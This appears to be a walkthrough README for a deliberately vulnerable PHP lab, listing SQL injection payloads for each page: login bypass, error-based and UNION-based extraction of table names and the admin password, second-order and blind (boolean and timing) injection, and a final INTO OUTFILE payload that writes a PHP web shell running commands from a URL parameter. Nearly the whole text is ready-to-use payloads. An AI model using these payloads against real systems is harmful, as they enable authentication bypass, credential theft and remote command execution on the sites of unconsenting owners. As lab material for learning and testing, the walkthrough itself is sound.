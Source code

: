 # Walkthrough document
This document explains the different attacks that can be done on this setup

## Registration
Use the register.php to create users

## Login bypass attack
Bypassing login using boolean expressions

1. **Page:** login1.php
   **Attack:** 
   
```
- ' OR 1=1 -- // 
- admin' OR 1=1 -- // 
```

2. **Page:** login2.php
    **Attack:** 

```
- admin') -- //  
```

## Verbose SQL Error based Injection
Forcing error conditions to reveal and extract data
1. **Page:** login1.php 
   **Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //
- ' or 1 in (select password from users where username = 'admin') -- //
```

## Extracting data using UNION queries
Using a pre existing SQL select query to fetch additional data from the DB
1. **Page:** searchproducts.php 
   **Attack:**

```
- ' order by 5 -- //
- ' union select 1,2,3,4,5 -- //
- ' union select null, null, database(), user(), @@version -- //
- ' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //
- ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
- ' union select null, id, username, password, fname from users -- //
```

## Second order SQL injection
User input is stored and reused as is in a different function that has no protection
1. **Page:** secondorder_register.php
**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //
- navigate to secondorder_changepass.php
```

## Blind SQL injection
1. **Page:** blindsqli.php
**Attack:**

```
- ?user=1' and 1=1 -- //
- ?user=admin' and substring((select table_name from information_schema.columns where column_name = 'password' LIMIT 1),1,1)>'a' -- // 
- ?user=1' union select 1,2,3,4, if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- // 
``` 

## OS interaction
1. **Page:** os_sqli.php 
**Attack:** 

```
- ?user=qqqq' union select null, null, null, '<pre><?php system($_GET[\'cmd\']); ?></pre>', null into outfile '/path/to/webroot/writable/dir/shell.php' -- //
```